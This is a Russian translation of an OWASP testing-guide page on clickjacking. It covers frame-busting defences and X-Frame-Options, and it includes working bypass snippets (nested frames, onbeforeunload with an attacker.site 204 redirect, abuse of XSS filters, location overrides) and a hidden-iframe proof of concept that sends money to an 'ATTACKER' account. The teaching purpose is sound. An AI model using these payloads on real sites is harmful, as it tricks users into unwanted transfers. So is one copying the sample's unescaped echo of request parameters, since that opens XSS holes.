


---

layout: col-document
title: WSTG - Latest
tags: WSTG

---


# Тестирование перехвата клика (Clickjacking)

|ID          |
|------------|
|WSTG-CLNT-09|

## Обзор

Перехват клика (англ.: [Clickjacking](https://en.wikipedia.org/wiki/Clickjacking)) — подмножество вмешательств в графический интерфейс пользователя, представляющее собой вредоносный метод, с помощью которого пользователя Интернет обманом заставляют взаимодействовать (в большинстве случаев, кликнув мышью) с чем-то отличным от того, с чем, он думает, что взаимодействует. Этот тип атаки, сам по себе или в сочетании с другими атаками, потенциально может отдавать несанкционированные команды или раскрывать чувствительную информацию, пока жертва взаимодействует с, казалось бы, безобидными web-страницами. Термин «кликджекинг» был придуман Jeremiah Grossman и Robert Hansen в 2008 г.

Атака перехвата клика использует, казалось бы, безобидные функции HTML и JavaScript, чтобы заставить жертву выполнять нежелательные действия, такие как нажатие невидимой кнопки, которая выполняет непредусмотренную операцию. Это проблема безопасности на стороне клиента, которая затрагивает различные браузеры и платформы.

Чтобы провести эту атаку, злоумышленник создаёт, казалось бы, безобидную web-страницу, которая загружает целевое приложение с помощью встроенного фрейма (скрытого с помощью CSS-кода). Как только это будет сделано, злоумышленник может побудить жертву взаимодействовать с web-страницей другими способами (например, с помощью социальной инженерии). Как и при других атаках, общим предварительным условием является аутентификация жертвы на целевом сайте злоумышленника.

\
*Рисунок 4.11.9-1: Иллюстрация встроенного фрейма с перехватом клика*

Жертва просматривает страницу злоумышленника, думая, что взаимодействует с видимым её пользовательским интерфейсом, но неумышленно выполняет действия на скрытой странице. Используя скрытую страницу, злоумышленник может обмануть пользователей путём размещения скрытых элементов на странице, заставляя их выполнять действия, которые они никогда не собирались делать.

\
*Рисунок 4.11.9-2: Иллюстрация с маскированным встроенным фреймом*

Сила этого метода заключается в том, что действия, выполняемые жертвой, происходят со скрытой, но подлинной целевой web-страницы. Следовательно, некоторые средства защиты от CSRF, реализованные разработчиками для защиты web-страницы от CSRF-атак, можно обойти.

## Задачи тестирования

- Ознакомиться с имеющимися мерами защиты.
- Оценить, насколько строги эти меры и можно ли их обойти.

## Как тестировать

Как упоминалось выше, этот тип атаки часто предназначен для того, чтобы позволить злоумышленнику вызвать действия пользователей на целевом сайте, даже если используются токены защиты от CSRF. Чтобы определить, уязвимы ли страницы сайта для атак кликджекинга необходимо провести тестирование.

Тестировщики могут проверить, может ли целевая страница быть загружена во встроенном фрейме, создав простую страницу, включающую фрейм, содержащий целевую страницу. Пример HTML-кода для создания этой тестовой страницы показан в следующем фрагменте кода:

```html
<html>
    <head>
        <title>Clickjack test page</title>
    </head>
    <body>
        <iframe src="http://www.target.site" width="500" height="500"></iframe>
    </body>
</html>
```

Если страница `http://www.target.site` успешно загружается во фрейм, то сайт уязвим и не имеет защиты от атак с перехватом клика.

### Обход защиты от кликджекинга

Если страница `http://www.target.site` не отображается во встроенном фрейме, то возможно, на сайте есть какая-то форма защиты. Важно отметить, что это не является гарантией того, что страница неуязвима.

Методы защиты web-страниц от перехвата клика можно разделить на несколько основных механизмов. В некоторых случаях можно обойти эти методы, используя специальные обходные пути. Дополнительные ресурсы см. в [Памятке OWASP по защите от кликджекинга](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html).

#### Защита на стороне клиента: блокировка запуска во фрейме

Самый распространённый метод на стороне клиента, разработанный для защиты web-страницы от кликджекинга, называется блокировкой фреймов (англ.: Frame Busting) и состоит из скрипта на каждой странице, который предотвращает её отображение, если она загружается внутри фрейма.

Структура кода блокировки фреймов обычно состоит из «условного оператора» и «противодействия». Для этого типа защиты есть несколько обходных путей, которые подходят под название «блокировка блокировки фреймов». Некоторые из этих методов зависят от браузера, в то время как другие работают везде.

##### Мобильная версия сайта

Мобильные версии сайта обычно меньше и быстрее, чем десктопные, и они должны быть менее сложными, чем основное web-приложение. Мобильные варианты часто имеют меньшую защиту, поскольку существует ошибочное предположение, что злоумышленник не может атаковать приложение со смартфона. Это в корне неверно, потому что злоумышленник может подделать заголовок ответа origin, указанный браузером, так что «немобильная» жертва сможет посетить приложение, созданное для мобильных пользователей. Из этого предположения следует, что в ряде случаев нет необходимости использовать техники обхода блокировки фреймов при наличии незащищённых альтернатив, допускающих эксплуатацию тех же векторов атаки.

##### Вложенные фреймы

Некоторые методы блокировки пытаются предотвратить запуск во фрейме, присваивая значение атрибуту `parent.location` в операторе «противодействия».

Такими действиями, например, являются:

- `self.parent.location` = `document.location`
- `parent.location.href` = `self.location`
- `parent.location` = `self.location`

Этот метод хорошо работает до тех пор, пока целевая страница «обрамлена» одной страницей. Однако, если злоумышленник заключает целевую страницу в один фрейм, который вложен в другой, то попытка доступа к `parent.location` становится нарушением безопасности во всех популярных браузерах из-за политики навигации по потомку фрейма. Это нарушение отключает меры защиты.

Код блокировки фреймов целевого сайта (`example.org`):

```javascript
if(top.location!=self.locaton) {
    parent.location = self.location;
}
```

«Наружный» фрейм злоумышленника (`fictitious2.html`):

```html
<iframe src="fictitious.html">
```

Вложенный фрейм злоумышленника (`fictitious.html`):

```html
<iframe src="http://example.org">
```

##### Отключение JavaScript

Поскольку этот тип защиты основан на JavaScript-коде блокировки фреймов, то страница не будет иметь механизма защиты от кликджекинга, если у жертвы отключен JavaScript или его может отключить злоумышленник.

Существует три метода деактивации, которые можно использовать с фреймами:

- Ограничение фреймов в Internet Explorer: начиная с IE6, фрейм может иметь атрибут security, который, будучи установлен в значение "restricted", отключает для фрейма код JavaScript, элементы управления ActiveX и возможность перенаправления на другие сайты.

Пример:

```html
<iframe src="http://example.org" security="restricted"></iframe>
```

- Атрибут sandbox: в HTML5 появился новый атрибут под названием sandbox. Он включает набор ограничений на контент, загружаемый в iframe. На [данный момент](https://caniuse.com/iframe-sandbox) этот атрибут совместим только с Chrome и Safari (~2010?).

Пример:

```html
<iframe src="http://example.org" sandbox></iframe>
```

- Режим дизайна: Пол Стоун показал проблему безопасности, связанную с designMode, который можно включить на странице фрейма (через document.designMode), отключив JavaScript во внешнем и вложенном фреймах. Режим дизайна в [настоящее время](https://developer.mozilla.org/ru/docs/Web/API/Document/designMode) реализован в Firefox и IE8 (~2010?).

##### Событие OnBeforeUnload

Событие `onBeforeUnload` можно использовать для обхода кода блокировки фреймов. Это событие вызывается, когда код блокировки фреймов хочет предотвратить запуск в iframe, загружая URL на всю web-страницу. Функция обработчика возвращает строку, которая запрашивается у пользователя с просьбой подтвердить, хочет ли он покинуть страницу. Когда эта строка отобразится пользователю, он, скорее всего, не согласится, что приведёт к срыву целевой блокировки фрейма.

Злоумышленник может использовать эту атаку, зарегистрировав событие выгрузки на внешней странице, используя следующий пример кода:

```html
<h1>www.fictitious.site</h1>
<script>
    window.onbeforeunload = function()
    {
        return "Вы хотите покинуть fictitious.site?";
    }
</script>
<iframe src="http://example.org">
```

Предыдущий метод требует взаимодействия с пользователем, но того же результата можно добиться и без него. Для этого злоумышленник должен автоматически отменить входящий запрос на переход в обработчике события `onBeforeUnload`, повторяя (например, каждую миллисекунду) запрос перехода на страницу, которая отвечает заголовком `HTTP/1.1 204 No Content`.

Поскольку браузер ничего с этим ответом не делает, результатом этой операции является очистка конвейера запросов, что делает исходную попытку блокировки фреймов бесполезной.

Ниже пример кода:

204-й статус:

```php
<?php
    header("HTTP/1.1 204 No Content");
?>
```

Страница злоумышленника:

```html
<script>
    var prevent_bust = 0;
    window.onbeforeunload = function() {
        prevent_bust++;
    };
    setInterval(
        function() {
            if (prevent_bust > 0) {
                prevent_bust -= 2;
                window.top.location = "http://attacker.site/204.php";
            }
        }, 1);
</script>
<iframe src="http://example.org">
```

##### Фильтр XSS

Начиная с Google Chrome 4.0 и IE8 были введены XSS-фильтры для защиты пользователей от отражённых XSS-атак. Nava и Lindsay заметили, что такого рода фильтры можно использовать для деактивации кода блокировки фреймов, выдавая его за вредоносный.

- **Фильтр XSS в IE8**: этот фильтр анализирует все параметры каждого запроса и ответа, проходящие через браузер, и сравнивает их с набором регулярных выражений для поиска попыток отражённых XSS. Когда фильтр находит возможную XSS-атаку; он отключает все встроенные на странице скрипты, в том числе скрипты блокировки фреймов (то же самое можно сделать и с внешними скриптами). По этой причине злоумышленник может вызвать ложное срабатывание, вставив начало скрипта блокировки фреймов в параметры запроса.

Пример: код блокировки запуска во фрейме целевой страницы:

```html
<script>
    if ( top != self )
    {
        top.location=self.location;
    }
</script>
```

Код злоумышленника:

```html
<iframe src="http://example.org/?param=<script>if">
```

- **Фильтр XSSAuditor в Chrome 4.0**: Он ведет себя немного иначе по сравнению с XSS-фильтром IE8. Фактически, с помощью этого фильтра злоумышленник может деактивировать «скрипт», передав его код в параметре запроса. Это позволяет странице фрейма специально нацеливаться на один фрагмент, содержащий код блокировки фреймов, оставляя прочий код работать.

Пример: код блокировки запуска во фрейме целевой страницы:

```html
<script>
    if ( top != self )
    {
        top.location=self.location;
    }
</script>
```

Код злоумышленника:

```html
<iframe src="http://example.org/?param=if(top+!%3D+self)+%7B+top.location%3Dself.location%3B+%7D">
```

##### Переопределение Location

Для многих браузеров переменная document.location является неизменяемым атрибутом. Однако в некоторых версиях Internet Explorer и Safari этот атрибут можно переопределить. Этот факт можно использовать для обхода кода блокировки фреймов.

- **Переопределение location в IE7 и IE8**: можно переопределить location, как это показано в следующем примере. Определив location как переменную, любой код, который пытается её прочитать или перейти, назначая top.location, завершится с ошибкой из-за нарушения безопасности, и поэтому код блокировки фреймов будет приостановлен.

Пример:

```html
<script>
    var location = "xyz";
</script>
<iframe src="http://example.org"></iframe>
```

- **Переопределение location в Safari 4.0.4**: Чтобы отключить код блокировки фреймов с помощью top.location, можно привязать location к функции через defineSetter (в window), так что попытка чтения или перехода к top.location будет неудачной.

Пример:

```html
<script>
    window.defineSetter("location" , function(){});
</script>
<iframe src="http://example.org"></iframe>
```

#### Защита на стороне сервера: X-Frame-Options

Альтернативный подход к коду блокировки фреймов на стороне клиента был реализован Microsoft и состоит в защите на базе заголовков. Этот новый заголовок X-FRAME-OPTIONS передаётся сервером в HTTP-ответах и используется для пометки web-страниц, которые не должны запускаться во фрейме. Этот заголовок может принимать значения DENY, SAMEORIGIN, ALLOW-FROM или нестандартный ALLOWALL. Рекомендуемое значение — DENY.

X-FRAME-OPTIONS — очень хорошее решение, и оно было принято основными браузерами, но и для этого метода существуют некоторые ограничения, которые могут привести к эксплуатации уязвимости кликджекинга.

##### Совместимость с браузерами

Поскольку X-FRAME-OPTIONS был представлен в 2009 году, этот заголовок несовместим со старыми версиями браузеров. Таким образом, каждый пользователь, у которого не обновлён браузер, может стать жертвой кликджекинга.

|Браузер            | Минимальная версия  |
|-------------------|-----------------|
| Internet Explorer | 8.0            |
| Firefox (Gecko)   | 3.6.9 (1.9.2.9) |
| Opera             | 10.50          |
| Safari            | 4.0             |
| Chrome            | 4.1.249.1042    |

##### Прокси

Web-прокси известны тем, что добавляют и удаляют заголовки. В случае, когда прокси удалит заголовок X-FRAME-OPTIONS, сайт потеряет защиту от запуска во фрейме.

##### Мобильная версия сайта

Поскольку X-FRAME-OPTIONS должен быть реализован на каждой странице сайта, разработчики могли забыть защитить мобильную версию сайта.

### Доказательство концепции

Как только мы обнаружим, что сайт, который мы тестируем, уязвим для атаки кликджекинга, мы можем приступить к разработке «доказательства концепции» (англ.: proof of concept, PoC), чтобы продемонстрировать уязвимость. Важно отметить, что, как упоминалось ранее, эти атаки могут использоваться в сочетании с другими формами атак (например, CSRF) и привести к обходу анти-CSRF-токенов. В связи с этим можно представить, что, например, сайт `example.org` позволяет аутентифицированным и авторизованным пользователям переводить деньги на другой счет.

Предположим, что для выполнения перевода разработчики предусмотрели три этапа. На первом пользователь заполняет форму с указанием целевого счета и суммы. На втором, всякий раз, когда пользователь отправляет форму, отображается сводная страница с запросом подтверждения от пользователя (как показано на следующем рисунке).

\
*Рисунок 4.11.9-3: Пример кликджекинга. Этап 2*

Ниже фрагмент кода для шага 2:

```javascript
//сгенерировать случайный анти-CSRF-токен
$csrfToken = md5(uniqid(rand(), TRUE));

//установить токен в качестве параметра сессии
$_SESSION['antiCsrf'] = $csrfToken;

//Форма перевода со скрытыми полями
$form = '
<form name="transferForm" action="confirm.php" method="POST">
        <div class="box">
        <h1>BANK XYZ - Confirm Transfer</h1>
        <p>
        Do You want to confirm a transfer of <b>'. $_REQUEST['amount'] .' &euro;</b> to account: <b>'. $_REQUEST['account'] .'</b> ?
        </p>
        <label>
            <input type="hidden" name="amount" value="' . $_REQUEST['amount'] . '" />
            <input type="hidden" name="account" value="' . $_REQUEST['account'] . '" />
            <input type="hidden" name="antiCsrf" value="' . $csrfToken . '" />
            <input type="submit" class="button" value="Transfer Money" />
        </label>

        </div>
</form>';
```

На последнем этапе предусмотрены меры защиты, а затем, если всё в порядке, осуществляется перевод. В следующем листинге представлен фрагмент кода последнего этапа:

> Примечание: в этом примере, для простоты, не показана нейтрализация ввода, но это не имеет отношения к блокированию этого типа атаки.

```javascript
if( (!empty($_SESSION['antiCsrf'])) && (!empty($_POST['antiCsrf'])) )
{
    // логика контроля и нейтрализации вводных данных

    // проверить анти-CSRF-токен
    if(($_SESSION['antiCsrf'] == $_POST['antiCsrf']) {
        echo '<p> '. $_POST['amount'] .' &euro; successfully transferred to account: '. $_POST['account'] .' </p>';
    }
} else {
    echo '<p>Transfer KO</p>';
}
```

Как видите, код защищён от CSRF-атаки как случайным токеном, сгенерированным на втором шаге, так и приёмом только переменной, переданной методом POST. В этой ситуации злоумышленник может предпринять атаку CSRF + Clickjacking, чтобы обойти защиту от CSRF и заставить жертву совершить денежный перевод без её согласия.

Целевая страница для атаки — второй шаг процедуры перевода денег. Поскольку разработчики предусмотрели меры защиты только на последнем этапе, думая, что этого достаточно, злоумышленник может передать параметры учётной записи и суммы с помощью метода GET.

> Примечание: существует продвинутая атака кликджекинга, которая позволяет заставить пользователей заполнить форму, поэтому даже в том случае, если требуется заполнить форму, возможна атака.

Страница злоумышленника может выглядеть просто и безобидно, как показано ниже:

\
*Рисунок 4.11.9-4: Пример вредоносной страницы с перехватом клика 1*

Но играя со значением прозрачности в CSS, мы можем увидеть, что скрыто под, казалось бы, безобидной страницей.

\
*Рисунок 4.11.9-5: Пример вредоносной страницы с перехватом клика 2*

Код кликджекинга для создания этой страницы представлен ниже:

```html
<html>
    <head>
        <title>Trusted web page</title>

        <style type="text/css"><!--
            *{
                margin:0;
                padding:0;
            }
            body {  
                background:#ffffff;
            }
            .button
            {
                padding:5px;
                background:#6699CC;
                left:275px;
                width:120px;
                border: 1px solid #336699;
            }
            #content {
                width: 500px;
                height: 500px;
                margin-top: 150px ;
                margin-left: 500px;
            }
            #clickjacking
            {
                position: absolute;
                left: 172px;
                top: 60px;
                filter: alpha(opacity=0);
                opacity:0.0
            }
        //--></style>

    </head>
    <body>
        <div id="content">
            <h1>www.owasp.com</h1>
            <form action="http://www.owasp.com">
                <input type="submit" class="button" value="Click and go!">
            </form>
        </div>

                <iframe id="clickjacking" src="http://localhost/csrf/transfer.php?account=ATTACKER&amount=10000" width="500" height="500" scrolling="no" frameborder="none">
                </iframe>
    </body>
</html>
```

С помощью CSS (обратите внимание на блок `#clickjacking`) мы можем замаскировать и соответствующим образом расположить iframe, чтобы он совмещался с кнопкой. Если жертва нажмет на кнопку "Click and go!" форма будет отправлена, и перевод завершен.

\
*Рисунок 4.11.9-6: Пример вредоносной страницы с перехватом клика 3*

В представленном примере используется только базовая техника кликджекинга, а с помощью продвинутой можно заставить пользователя заполнить форму значениями, указанными злоумышленником.

## Ссылки

- [OWASP Clickjacking](https://owasp.org/www-community/attacks/Clickjacking)
- [Wikipedia Clickjacking](https://en.wikipedia.org/wiki/Clickjacking)
- [Gustav Rydstedt, Elie Bursztein, Dan Boneh, and Collin Jackson: "Busting Frame Busting: a Study of Clickjacking Vulnerabilities on Popular Sites"](https://seclab.stanford.edu/websec/framebusting/framebust.pdf)
- [Атака типа clickjacking](https://learn.javascript.ru/clickjacking)
- [Атаки: кликджекинг](https://csplite.com/ru/csp295/)